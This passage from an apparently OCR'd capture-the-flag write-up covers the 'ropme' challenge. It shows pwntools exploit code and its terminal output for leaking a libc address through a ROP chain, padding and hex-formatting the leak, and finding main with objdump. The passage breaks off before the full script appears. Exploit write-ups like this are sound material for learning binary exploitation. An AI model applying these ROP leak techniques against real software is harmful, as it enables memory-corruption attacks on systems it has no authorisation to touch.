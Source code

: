 root@nidus:/git/challenges/ropme# python3 exploit.py
  [+] Starting local process '/usr/bin/gdbserver': pid 58786
  [*] running in new terminal: /usr/bin/gdb -q  "./ropme" -x /tmp/pwn26khpzjk.gdb
  [*] Switching to interactive mode
  ROP me outside, how 'about dah?
  \xb0\x06\x13\x7f                                     <----- RANDOM MEMORY ADDRESS
  [*] Got EOF while reading in interactive

To get some value of that random memory address we can print the leaked value as 8 bytes.
Edit the last lines of the script to look like below and run the script again.
  p.sendline(junk + gadget_leak)
  p.recvuntil("ROP me outside, how 'about dah?")
  leaked_put = p.recv()[:8]
  log.info(f'Leaked Address: {leaked_put}')
  p.interactive()

root@nidus:/git/challenges/ropme# python3 exploit.py
  -- snip --
  [*] Leaked Address: b'\n\xb0&g\xb5\x14\x7f\n'

The memory address is now in 8 byte format, and ends with a new line (\n). However notice that like the example above
all of the 8 bytes were not filled, to fix this we can adjust the output to always print 8 bytes - thus giving us a
valid memory address in the end.

Change leaked_puts:
leaked_put = p.recv()[:8].strip().ljust(8, b'\x00')

root@nidus:/git/challenges/ropme# python3 exploit.py
  -- snip --
  [*] Leaked Address: b'\xb0\xc60|%\x7f\x00\x00'

As we see the output is now 8 bytes long and the 'padding' is null bytes. To get it more human readable convert the
output to hex, which is easily done by adding .hex() to the log.info line as below.
  log.info(f'Leaked Address: {leaked_put.hex()}')

root@nidus:/git/challenges/ropme# python3 exploit.py
  -- snip --
  [*] Leaked Address: b046c66e907f0000

As we can see we now get a human readable leaked memory address, however the string is in reverse (because of
how little endian works).


4. Next we need to make sure that the program doesn't crash. To do this we grab the address of main via objdump.
root@nidus:/git/challenges/ropme# objdump -D ropme | grep main
  -- snip --
  0000000000400626 <main>:

Edit the script and add plt_main:

root@nidus:/git/challenges/ropme# cat exploit.py
  #!/usr/bin/python3
